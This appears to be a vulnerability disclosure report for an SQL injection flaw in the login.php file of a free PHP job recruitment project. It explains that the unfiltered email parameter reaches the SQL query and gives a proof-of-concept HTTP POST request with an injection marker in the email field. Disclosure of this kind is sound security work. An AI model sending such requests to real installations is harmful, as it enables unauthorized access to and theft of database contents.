 # Job-recruitment-in-php has sql injection vulnerability in login.php  

## supplier
https://code-projects.org/job-recruitment-in-php-css-javascript-and-mysql-free-download/
## Vulnerability file
login.php
## describe
In login function, there is an unauthorized SQL injection vulnerability in Job_Recruitment systtem, The information of the database can be obtained without authorization, and arbitrary commands may be executed. Control parameter: **$email**

![image-20241111083226200](https://github.com/user-attachments/assets/9a180e25-02c4-48a8-8060-ad33332a5bf6)

## code analysis

The **$email** parameters of the login.php are not filtered and concatenated into the SQL statement for execution. There sql injection vulnerability.

![image-20241111083008348](https://github.com/user-attachments/assets/cda5f5fb-4223-45ff-8a34-458f3c782ba3)

## POC

```
POST /login.php HTTP/1.1
Host: airecruitmentsystem
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://airecruitmentsystem
Connection: close
Referer: http://airecruitmentsystem/index.php/
Cookie: PHPSESSID=apdbj581m83cio8cj275e494dr
Upgrade-Insecure-Requests: 1
Priority: u=0, i

email=1*&p=123456
```

get tables from owlphin.

![image-20241111083415377](https://github.com/user-attachments/assets/96de843c-b9d7-4c26-a94b-cc11ee8f4f68)

